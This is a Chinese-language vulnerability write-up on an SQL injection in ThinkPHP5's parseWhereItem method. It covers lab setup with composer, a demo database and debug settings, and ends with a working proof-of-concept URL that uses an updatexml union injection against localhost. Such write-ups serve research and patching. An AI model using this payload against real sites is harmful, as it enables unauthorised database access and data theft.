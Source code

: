 2

ThinkPHP5 全版本  

#### **漏洞概要**

本次漏洞存在于 Mysql 类的 parseWhereItem 方法中。

由于程序没有对数据进行很好的过滤，将数据拼接进 SQL 语句，导致 SQL 注入漏洞 的产生。

漏洞影响版本：ThinkPHP5 全版本 。

#### **漏洞环境**

下载 composer.phar，把他放到 tp 的目录下。

通过一下命令来配置国内源。

```
php composer.phar config -g repo.packagist composer https://mirrors.aliyun.com/composer/
```

通过以下命令来获取测试环境代码：

```
php composer.phar install
```

将 composer.json 文件的 require 字段设置成如下：

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoNVB2GptFv6iaUlfRTibK9yKvmBTnPHNM31waiaRFyHltwMS7dJ8ibQTM4r1UicBmeJrvFkGyWqDbuFaQ/640?wx_fmt=png)  
  

然后执行 composer update ，

并将 application/index/controller/Index.php 文件代码设置如下：

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoNVB2GptFv6iaUlfRTibK9yKibY1WZNfEujqjG4xJAOGM35tOQX6mM2DLFBb4zXaNtLRv76nVn5I57w/640?wx_fmt=png)

在 config/database.php 文件中配置数据库相关信息

并开启 config/app.php 中的 app_debug 和 app_trace。

创建数据库信息如下：

```
create database tpdemo;
use tpdemo;
create table users(
    id int primary key auto_increment,
    username varchar(50) not null
);
insert into users(id,username) values(1,'mochazz');
```

POC：`http://127.0.0.1:81/index.php/index/index/index?username=)%20union%20select%20updatexml(1,concat(0x7,user(),0x7e),1)%23`

![](https://mmbiz.qpic.cn/mmbiz_png/BwqHlJ29vcoNVB2GptFv6iaUlfRTibK9yKKIicSUZFz99FHh2lLwIOsoG00MB17R5ibwDMnKOcHGATRmWJ8cXgjePA/640?wx_fmt=png)
